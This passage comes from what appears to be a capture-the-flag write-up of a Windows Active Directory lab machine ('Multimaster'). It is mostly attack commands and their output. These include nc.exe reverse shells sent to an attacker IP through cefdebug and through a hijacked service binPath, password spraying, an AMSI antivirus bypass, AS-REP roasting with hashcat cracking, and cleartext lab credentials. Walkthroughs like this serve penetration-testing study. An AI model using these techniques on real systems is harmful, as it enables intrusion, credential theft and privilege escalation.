cefdebug.exe : [2023/10/15 04:21:08:1041] U: >>> process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.16.9 443 -e cmd.exe')
    + CategoryInfo          : NotSpecified: ([2023/10/15 04:...43 -e cmd.exe'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2023/10/15 04:21:08:1041] U: <<< ChildProcess
*Evil-WinRM* PS C:\programdata> 

```
```
└─$ rlwrap nc -vlnp 443 
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.179] 50361
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files\Microsoft VS Code>whoami
whoami
megacorp\cyork

C:\Program Files\Microsoft VS Code>

```
## User #2
- We are `developers`
  - So now we can check `inetpub\wwwroot\`
```
C:\Program Files\Microsoft VS Code>whoami /all
whoami /all

USER INFORMATION
----------------

User Name      SID                                          
============== =============================================
megacorp\cyork S-1-5-21-3167813660-1240564177-918740779-3107


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes                                        
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Group used for deny only                          
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                        Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

```

- Inside we have custom `dll`
```
C:\inetpub\wwwroot>dir bin
dir bin
 Volume in drive C has no label.
 Volume Serial Number is 7B4A-4B5F

 Directory of C:\inetpub\wwwroot\bin

01/07/2020  10:28 PM    <DIR>          .
01/07/2020  10:28 PM    <DIR>          ..
02/21/2013  08:13 PM           102,912 Antlr3.Runtime.dll
02/21/2013  08:13 PM           431,616 Antlr3.Runtime.pdb
05/24/2018  01:08 AM            40,080 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll
07/24/2012  11:18 PM            45,416 Microsoft.Web.Infrastructure.dll
01/09/2020  05:13 AM            13,824 MultimasterAPI.dll
01/09/2020  05:13 AM            28,160 MultimasterAPI.pdb
02/17/2018  09:14 PM           664,576 Newtonsoft.Json.dll
01/07/2020  10:28 PM    <DIR>          roslyn
11/28/2018  12:30 AM           178,808 System.Net.Http.Formatting.dll
11/28/2018  12:28 AM            27,768 System.Web.Cors.dll
01/27/2015  03:34 PM           139,976 System.Web.Helpers.dll
11/28/2018  12:31 AM            39,352 System.Web.Http.Cors.dll
11/28/2018  12:31 AM           455,096 System.Web.Http.dll
01/31/2018  11:49 PM            77,520 System.Web.Http.WebHost.dll
01/27/2015  03:32 PM           566,472 System.Web.Mvc.dll
02/11/2014  02:56 AM            70,864 System.Web.Optimization.dll
01/27/2015  03:32 PM           272,072 System.Web.Razor.dll
01/27/2015  03:34 PM            41,672 System.Web.WebPages.Deployment.dll
01/27/2015  03:34 PM           211,656 System.Web.WebPages.dll
01/27/2015  03:34 PM            39,624 System.Web.WebPages.Razor.dll
07/17/2013  04:33 AM         1,276,568 WebGrease.dll
              20 File(s)      4,724,032 bytes
               3 Dir(s)   6,298,828,800 bytes free
```
```
└─$ file MultimasterAPI.dll 
MultimasterAPI.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```
- We can use `dnspy` for reversing or 
  - Let's just start with the `strings`
  - We will find the password
```
└─$ strings -el MultimasterAPI.dll
'C]v}
{{ action = {0}, id = {1} }}
{{ id = {0} }}
~/bundles/jquery
~/Scripts/jquery-{version}.js
~/bundles/jqueryval
~/Scripts/jquery.validate*
~/bundles/modernizr
~/Scripts/modernizr-*
~/bundles/bootstrap
~/Scripts/bootstrap.js
~/Content/css
~/Content/bootstrap.css
~/Content/site.css
{resource}.axd/{*pathInfo}
Default
{controller}/{action}/{id}
Index
DefaultApi
api/{controller}/{id}
/api/getColleagues
UNION
SELECT
JOIN
EXEC
ORDER
WAITFOR
DELAY
FROM
WHERE
LIKE
INFORMATION_SCHEMA
MASTER
{ "info" : "MegaCorp API" }
application/json
server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;
name
Select * from Colleagues where name like '%{0}%'
...
```
- If we test for password-reuse, we have a hit
```
─$ crackmapexec smb 10.10.10.179 -u users.list -p 'D3veL0pM3nT!'
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\svc-nas:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\Privileged:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\andrew:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\lana:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\alice:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\test:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\dai:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\svc-sql:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\SQLServer2005SQLBrowserUser:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\sbauer:D3veL0pM3nT! 
```

- `sbauer` can `winrm` 
```
└─$ evil-winrm -u 'MEGACORP\sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sbauer\Documents>
```
## User #3
- Let's run `bloodhound` to gather domain information
  - I ran it with `tushikikatomo` creds before, but had nothing interesting
```
└─$ bloodhound-python -u sbauer -p 'D3veL0pM3nT!' -d megacorp.local -dc multimaster.megacorp.local -ns 10.10.10.179 -c ALL --zip
INFO: Found AD domain: megacorp.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: multimaster.megacorp.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: multimaster.megacorp.local
INFO: Found 28 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MULTIMASTER.MEGACORP.LOCAL
INFO: Done in 00M 28S
INFO: Compressing output into 20231015123725_bloodhound.zip
```

- `sbauer` has `GenericWrite` over `jorden` who is a member of `Server Operators`
  - [Server Operators](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#server-operators)


- We can either set `SPN` or make user `AS-REP`-roastable
  - There is `AMSI` enabled
```
*Evil-WinRM* PS C:\programdata> import-module .\powerview.ps1
At C:\programdata\powerview.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\programdata\powerview.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

```
- Let's bypass it using `evil-winrm`
```
*Evil-WinRM* PS C:\programdata> menu


   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```
```
*Evil-WinRM* PS C:\programdata> Bypass-4MSI
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!
```

- We will set `UF_DONT_REQUIRE_PREAUTH`
  - http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm
```
*Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536
```
```
*Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536


*Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -Verbose
Verbose: [Get-DomainSearcher] search base: LDAP://DC=MEGACORP,DC=LOCAL
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'
```
```
*Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536
DONT_REQ_PREAUTH               4194304


*Evil-WinRM* PS C:\programdata>
```
- Let's use `impacket-GetNPUsers`
```
└─$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.179 MEGACORP/jorden                                                                                                        
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for jorden
$krb5asrep$23$jorden@MEGACORP:b8aa6ac1a239e016faeb9ac1d73f7b59$2535eb23e7361e0851b1098fdbd6af879445a606ea31ba85743ca7a56233efed0a6d4215fc7239368b91f76522fe03d1c91e8fd7da53f58725a413d9a860469fc29f0f5bc804d8600ac4e5c82079adb2851381751d16a4b9b42b37b25c1356cfbf6df694436c57fdcc5b1fc9c444143d1fd67935b77ee3b3bd841e682323454eb68a5080b7ec587244df86d7b1e2911859137501d6c97f5a3fa4f3ed2091854b4235567a4aa8ece93116799738c54c0f59c561522fa8f8576b705320d027d91e90e6d5023d6e849af7662afd36f5d53ba4209a4d8b5e142028a15b6b7e2fdf7dbfe98408c8a32d4cfc9a
```

- Crack it using `hashcat`
```
└─$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1435/2934 MB (512 MB allocatable), 2MCU
...
$krb5asrep$23$jorden@MEGACORP:b8aa6ac1a239e016faeb9ac1d73f7b59$2535eb23e7361e0851b1098fdbd6af879445a606ea31ba85743ca7a56233efed0a6d4215fc7239368b91f76522fe03d1c91e8fd7da53f58725a413d9a860469fc29f0f5bc804d8600ac4e5c82079adb2851381751d16a4b9b42b37b25c1356cfbf6df694436c57fdcc5b1fc9c444143d1fd67935b77ee3b3bd841e682323454eb68a5080b7ec587244df86d7b1e2911859137501d6c97f5a3fa4f3ed2091854b4235567a4aa8ece93116799738c54c0f59c561522fa8f8576b705320d027d91e90e6d5023d6e849af7662afd36f5d53ba4209a4d8b5e142028a15b6b7e2fdf7dbfe98408c8a32d4cfc9a:rainforest786
...
```

- And we have access
```
└─$ evil-winrm -u "MEGACORP\jorden" -p rainforest786 -i 10.10.10.179
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jorden\Documents> 

```
## Root
- Since `jorden` is `Server Operator`, we can start and stop services
  - [Server Operators](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#server-operators)
```
*Evil-WinRM* PS C:\Users\jorden\Documents> net user jorden
User name                    jorden
Full Name                    Jorden Mclean
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:48:17 PM
Password expires             Never
Password changeable          1/10/2020 5:48:17 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/15/2023 6:07:45 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Server Operators
Global Group memberships     *Domain Users         *Developers
The command completed successfully.

```

- Let's see which services we can edit
  - We can use `winpeas` or `PrivescCheck` for that
```
*Evil-WinRM* PS C:\programdata> Bypass-4MSI
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!
*Evil-WinRM* PS C:\programdata> import-module .\pc.ps1
*Evil-WinRM* PS C:\programdata> Invoke-PrivescCheck
+------+------------------------------------------------+------+
| TEST | USER > Identity                                | INFO |
+------+------------------------------------------------+------+
| DESC | Get the full name of the current user (domain +       |
|      | username) along with the associated Security          |
|      | Identifier (SID).                                     |
+------+-------------------------------------------------------+
[*] Found 1 result(s).
...
+------+------------------------------------------------+------+
| TEST | SERVICES > Service Permissions                 | VULN |
+------+------------------------------------------------+------+
| DESC | Interact with the Service Control Manager (SCM) and   |
|      | check whether the current user can modify any         |
|      | registered service.                                   |
+------+-------------------------------------------------------+
[*] Found 394 result(s).
...
+------+------------------------------------------------+------+
| TEST | SERVICES > Registry Permissions                | VULN |
+------+------------------------------------------------+------+
| DESC | Parse the registry and check whether the current user |
|      | can modify the configuration of any registered        |
|      | service.                                              |
+------+-------------------------------------------------------+
[*] Found 197 result(s).
...
```

- With trial and error, I found suitable service and modified it's binary path
  - Then had to change `start` mode to `auto`, since it was disabled
  - Then we start our listener and start the service
```
*Evil-WinRM* PS C:\programdata> sc.exe config usosvc binPath="C:\programdata\nc.exe 10.10.16.9 445 -e cmd.exe"
[SC] ChangeServiceConfig SUCCESS
```
```
*Evil-WinRM* PS C:\programdata> sc.exe config usosvc start=auto
[SC] ChangeServiceConfig SUCCESS
```
```
*Evil-WinRM* PS C:\programdata> sc.exe start usosvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

```



- [0xdf](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#unintended-paths) shows unintented path in his blog